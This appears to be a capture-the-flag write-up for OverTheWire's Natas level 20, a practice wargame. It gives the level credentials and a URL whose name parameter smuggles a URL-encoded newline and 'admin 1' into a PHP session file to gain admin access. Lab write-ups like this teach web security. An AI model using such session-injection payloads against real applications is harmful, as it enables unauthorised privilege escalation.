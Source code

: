 # [natas 20](http://natas20.natas.labs.overthewire.org)

    Username: natas20
    Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF

This level we try to write "admin 1" to the session file.
Browse to the url below.

    http://natas20.natas.labs.overthewire.org/index.php/index.php?name=ving%0Aadmin%201&debug

Then refresh the page and the session file will be read.

    name ving
    admin 1

Now we can see the password.

    Username: natas21
    Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ

